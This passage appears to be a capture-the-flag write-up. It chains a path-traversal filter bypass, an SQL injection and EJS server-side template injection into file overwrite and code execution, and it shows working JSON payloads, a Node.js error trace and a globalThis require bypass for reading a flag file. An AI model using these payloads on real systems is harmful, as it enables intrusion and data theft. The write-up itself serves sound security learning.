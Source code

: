 1. Where we are (2.0.0)
2. The `..=%5C` vulnerability is fixed
3. The `./../../test/../../../../../../../../../../etc/passwd` vulnerability is fixed

Maybe vuln #2 was introduced after version 3.0.0? Regardless, vuln #1 works for us 😌

### Server-side Template Injection (RCE)

Let's think about which file we might be able to overwrite for RCE. How about `/tmp/view/index.ejs`, since it's rendered as a template at the bottom of app.js?

```javascript
console.log(ejs.render(fs.readFileSync("/tmp/view/index.ejs", "utf-8"), { filename: path.basename(filename), error: error }));
```

We'll try a basic payload to read the contents of a file in the `/tmp` directory beginning with "flag\_"

```javascript
<% var fs=require('fs'); var f=fs.readdirSync('/tmp').find(x=>x.indexOf('flag_')===0); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %>
```

Put it all together.

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR rowid=2 -- ",
    "attachment": "..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c/tmp/view/index.ejs",
    "content": "<% var fs=require('fs'); var f=fs.readdirSync('/tmp').find(x=>x.indexOf('flag_')===0); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %>"
}
```

The whole HTML response has been replaced with an error 👀

```javascript
:10 ; var fs=require('fs'); var f=fs.readdirSync('/tmp').find(x=>x.indexOf('flag_')===0); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } ^ ReferenceError: ejs:1 >> 1| <% var fs=require('fs'); var f=fs.readdirSync('/tmp').find(x=>x.indexOf('flag_')===0); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %> require is not defined at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:673:12), :10:15) at anonymous (/app/node_modules/ejs/lib/ejs.js:703:17) at exports.render (/app/node_modules/ejs/lib/ejs.js:425:37) at main (eval at (/app/runner.cjs:38:13), :74:19) { path: '' } Node.js v20.19.5
```

The key part is "require is not defined at eval", lets try to access it from [globalThis](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/globalThis)

```json
{
    "username": ":updatedat",
    "updatedat": "'' ) OR rowid=2 -- ",
    "attachment": "..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c..=%5c/tmp/view/index.ejs",
    "content": "<% var fs = globalThis && globalThis.process && globalThis.process.mainModule && globalThis.process.mainModule.require && globalThis.process.mainModule.require('fs'); var f = fs.readdirSync('/tmp').find(function(x){ return x.indexOf('flag_')===0 }); if(f){ print(fs.readFileSync('/tmp/'+f,'utf8')) } %>"
}
```
